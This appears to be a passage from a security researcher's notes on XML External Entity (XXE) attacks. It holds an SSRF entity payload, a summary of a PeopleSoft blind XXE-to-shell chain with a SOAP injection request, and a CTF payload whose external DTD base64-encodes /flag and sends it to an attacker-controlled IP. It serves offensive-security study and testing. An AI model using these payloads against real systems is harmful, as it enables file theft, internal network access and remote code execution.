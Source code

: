 ### XXE: SSRF Example

>[!info]
>See also [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md) vulnerabilities

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

#### Blind XXE to SSRF to RCE

A blind XXE with SSRF capabilities was used to deploy arbitrary services. After some research in PeopleSoft's `pspc.war`, which contains the Axis instance, it appears the `Deploy` class of the `org.apache.pluto.portalImpl` package contains interesting methods. First, `addToEntityReg(String[] args)` allows us to add arbitrary data at the end of an XML file. Second, `copy(file1, file2)` allows us to copy it anywhere. This is enough to get a shell, by inserting a JSP payload in our XML, and copying it into the webroot. [^xxe2shell]

[^xxe2shell]: [ORACLE PEOPLESOFT REMOTE CODE EXECUTION: BLIND XXE TO SYSTEM SHELL](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce), ambionics.io

Axis call to perform arbitrary GET/POST SOAP requests:
```http
GET /pspc/services/SomeService?method=!--><myMethod+attr="x"><test>y</test></myMethod

--- RESPONSE ---

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <!--><myMethod attr="x"><test>y</test></myMethod>
    </!--><myMethod attr="x"><test>y</test></myMethod>
  </soapenv:Body>
</soapenv:Envelope>
```


### XXE: Remote Attack - Through External Xml Inclusion

Example: [WAFfle-y Order](../../Play%20ground/CTFs/WAFfle-y%20Order.md)

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "{YOUR_NGORK_URL}/ext.dtd">
    %xxe;
]>
<foo>&exfil;</foo>
```
**/ext.dtd**:
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://192.168.1.199/bypass.xml?%data;'>">
%abt;
```


[^param-ent]: https://www.w3.org/TR/xml/#wfc-PEinInternalSubset
[^1]: [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md)
[^2]: [Path Traversal](Path%20Traversal.md)
[^3]: [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md)
[^dtd-finder]: [dtd-finder list](https://github.com/GoSecure/dtd-finder/tree/master/list?ref=labs.watchtowr.com), GitHub